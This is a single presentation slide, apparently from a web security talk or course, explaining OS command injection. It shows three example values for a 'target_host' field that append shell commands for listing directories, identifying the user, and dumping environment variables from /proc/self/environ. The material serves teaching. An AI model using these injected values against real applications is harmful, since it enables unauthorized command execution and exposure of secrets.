

# Command Injection
Inject OS commands from web application
View directory contents
target_host=google.com; ls –alR
View application user
target_host=google.com; whoami
Dump env variables
target_host=google.com;cat /proc/self/environ